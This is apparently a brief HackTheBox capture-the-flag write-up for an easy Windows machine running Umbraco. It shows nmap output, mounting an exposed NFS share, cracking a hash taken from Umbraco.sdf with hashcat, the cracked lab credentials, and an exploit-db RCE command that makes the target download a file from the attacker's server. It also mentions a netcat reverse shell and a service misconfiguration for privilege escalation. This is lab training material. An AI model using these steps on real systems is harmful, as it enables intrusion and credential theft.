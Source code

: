 
> HackTheBox easy machine #windows #misconfiguration 

# NMAP 

```shell
Host is up (0.076s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-24T12:02:34
|_  start_date: N/A
|_clock-skew: 59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

> port 2049 has a public nfs share /site-backups

```shell
showmount -e $IP
mount -t nfs <ip>:<remote_folder> <local_folder> -o nolock
```

> `showmount -e` displays all export shares
> `mount -t nfs` syncs a local directory to the mount 
 
>[hacktricks source](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)


> found credentials on the directory `/App_Data/Umbraco.sdf`
> the password was hashed, used hashcat to crack the password

```
hashcat -m 100 -a 0 hash wordlist --show
```


credentials
username: admin@htb.local
password: baconandcheese

> used a python exploit to trigger remote commands 
> [exploitdb](https://www.exploit-db.com/exploits/49488) 

```shell
python exploit.py -u admin@htb.local -p baconandcheese -i <URL> -c powershell.exe -a 'Invoke WebReqeust <HTTP-server>'
```
> I downloaded and executed nc.exe to initiate a reverse shell
> found a services (usosvc) that can be manipulated by normal user

